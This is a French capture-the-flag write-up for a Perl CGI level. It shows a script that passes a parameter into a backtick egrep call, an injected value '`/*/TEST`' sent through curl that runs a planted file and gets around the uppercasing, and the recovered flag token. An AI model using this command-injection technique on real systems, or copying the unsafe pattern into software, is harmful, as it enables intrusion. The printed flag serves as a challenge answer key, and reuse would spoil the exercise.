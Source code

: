 Au login nous voyons un fichier `level12.pl` qui est un script perl.

```perl
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}
``` 
Nous voyons que le script utilise la fonction `egrep` pour rechercher des lignes dans le fichier `/tmp/xd`.

Il attend un argument x et y

x est transformer en majuscule, il est donc impossible d'envoyer la commande directement

Notre idée est de créer un fichier avec un nom en majuscule pour etre reconnu et lu par egrep.

nous creons un fichier dans /tmp/TEST  dans lequel nous mettons la commande suivante:

```bash
echo "getflag > /tmp/file"
```
nous donnons les droits d'execution au fichier
```bash
chmod +x /tmp/TEST
```
Nous allons executer le curl du script pearl :
```bash
curl 'http://localhost:4646/?x="`/*/TEST`"'
```
Nous allons lire le fichier `/tmp/file` pour obtenir le flag
```bash
cat /tmp/file
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```
Nous avons le flag `g1qKMiRpXf53AWhDaU7FEkczr`